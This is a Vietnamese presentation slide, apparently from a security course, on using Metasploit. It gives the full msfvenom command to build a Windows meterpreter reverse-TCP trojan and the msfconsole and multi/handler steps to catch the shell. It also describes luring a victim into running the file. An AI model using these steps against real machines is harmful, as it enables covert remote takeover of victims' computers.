

#
III. Sử dụng Metasploit Framework
Tạo mã độc (Trojan), rồi truyền vào máy victim sau đó dẫn dụ victim kích hoạt
Bước 1: Tạo payload bằng lệnh: msfvenom -a x86 --platform windows -f exe -p windows/meterpreter/reverse_tcp lhost=[ip] lport=[cổng] -o [tên_file].exe
Bước 2: Mở một cửa sổ terminal khác, chạy msfconsole để khởi chạy Metasploit Framework
Bước 3: Gõ use exploit/multi/handler.

21